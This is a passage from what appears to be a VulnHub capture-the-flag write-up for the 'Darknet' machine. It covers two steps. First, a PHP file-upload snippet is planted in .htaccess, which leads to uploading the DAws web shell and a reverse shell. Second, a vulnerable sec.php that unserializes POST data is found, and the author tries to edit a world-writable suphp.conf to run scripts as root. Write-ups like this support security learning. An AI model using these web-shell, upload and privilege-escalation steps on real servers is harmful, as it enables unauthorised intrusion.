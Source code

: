 Sure enough the `$_GET["test"]` variable is on the page. So this should allow me 
to get a run some useful code on there somehow.

After following some blind leads, I wrote a php script that would take a file encoded 
with base64 and a filename via a `POST` method and write this file out.
(Note: appending the entire script for DAws or similar didn't work).
Something like this should work though:

{% highlight php %}
$fp = fopen($_POST['name'], 'wb'); 
fwrite($fp, base64_decode($_POST['data'])); 
fclose($fp);
{% endhighlight %}

At the end of the `.htaccess` file. However this always error with a permissions
error.

After struggling with this for quite some time I got some help from a fellow
#vulnhub resident who helped me out with something I missed. It's `suphp` not `php`,
so I wasn't executing the script as the `errorlevel` user. Derp.

More info on [suphp](http://suphp.org/Home.html)

# Stage 5

So having sorted that I uploaded `DAws` and got myself a reverse shell and explored
once more. Now inside `/var/www` there's some files I missed earlier: `sec.php`,
`Classes/Test.php`, and `Classes/Show.php`. Interesting.

Trying to hit `darknet.com/sec.php` errors. Let's take a look inside of it

{% highlight php %}
<?php

require "Classes/Test.php";
require "Classes/Show.php";

if(!empty($_POST['test'])){
    $d=$_POST['test'];
    $j=unserialize($d);
    echo $j;
}
?>
{% endhighlight %}

Rembering that we're dealing with suphp it could well be that the 500 error is
because `sec.php` is trying to run as `root`. Checking `/etc/suphp/suphp.conf` 
my suspicion is correct, the `min_uid` and `min_gid` settings are too high for
`root` scripts to run. But hey, as luck would have it (thanks q3rv0) `suphp.conf`
is `777`. So heading straight to `sed`

{% highlight console %}
$ sed -i 's/min_uid=100/min_uid=0/g' suphp.conf
sed: couldn't open temporary file ./sedm2LUZQ: Permission denied
{% endhighlight %}
